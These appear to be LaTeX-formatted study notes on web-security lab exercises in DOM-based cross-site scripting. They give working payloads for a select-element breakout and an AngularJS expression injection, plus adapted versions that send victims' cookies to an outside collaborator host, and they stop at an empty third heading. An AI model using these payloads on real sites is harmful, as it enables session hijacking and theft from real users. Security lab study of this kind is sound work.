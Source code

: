 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\subsection{Labs}\label{labs}

\subsubsection{1. DOM XSS in document.write sink using source
location.search inside a select
element.}\label{1-dom-xss-in-documentwrite-sink-using-source-locationsearch-inside-a-select-element}

\begin{quote}
Add parameter to URL product?productId=1\&storeId=kek and check out it
is in dropbox on the product site. Check HTML code and find out, that
storeId is in \passthrough{\lstinline!<select>!} tag. Create the next
payload:
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
storeId=kek"></select><script>alert(1)</script>
\end{Verbatim}

\textbf{Adapted version}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
\end{Verbatim}

\subsubsection{2. DOM XSS in AngularJS expression with angle brackets
and double quotes
HTML-encoded.}\label{2-dom-xss-in-angularjs-expression-with-angle-brackets-and-double-quotes-html-encoded}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
{{constructor.constructor('alert(1)')()}}
\end{Verbatim}

\textbf{Adapted version}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
\end{Verbatim}

\subsubsection{3. Reflected DOM XSS}\label{3-reflected-dom-xss}
\end{document}
